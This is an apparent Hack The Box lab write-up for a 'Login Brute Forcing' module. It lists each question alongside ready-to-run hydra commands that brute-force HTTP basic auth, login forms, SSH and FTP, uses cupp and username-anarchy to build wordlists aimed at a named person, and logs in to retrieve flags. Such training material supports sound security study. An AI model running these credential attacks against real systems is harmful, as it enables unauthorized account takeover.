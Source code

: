 # [HTB] Login Brute Forcing

## Default Passwords

>**Q. Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.253.106 -s 55305 http-get /
```

## Username Brute Force

>**Q. Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

```bash
Hint: Use the same answer as the previous question!
```

## Login Form Attacks

>**Q. Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.253.106 -s 55305 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Service Authentication Brute Forcing

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
sudo apt install cupp
```
```
Code: bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
cupp -i
hydra -l b.gates -P william.txt -u -f ssh://83.136.253.168:43879 -t 4
ssh b.gates@83.136.253.168 -p 43879
ls
cat flag.txt
```

```bash
ls /home
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```

## Skills Assessment - Website

>**Q. When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.254.230 -s 42335 http-get / 
```


>**Q. Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

Hint: You may reuse the username you found earlier. Make sure you got the correct fail string and parameters.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 83.136.254.230 -s 42335 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```

## Skills Assessment - Service Login

>**Q. As you now have the name of an employee, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Harry Potter > usernameHarry.txt
cp usernameHarry.txt ../
```

```bash
cupp -i
```

```bash
> First Name: Harry
> Surname: Potter
> Nickname: 
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: Y
```

```bash
hydra -L usernameHarry.txt -P harry.txt -u -f ssh://83.136.255.177:36015 -t 4
```

```bash
ssh username@83.136.255.177 -p 36015
ls
cat flag.txt
```

>**Q. Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

```bash
ls /home
netstat -antp | grep -i list
hydra -l g.potter -P rockyou-30.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```
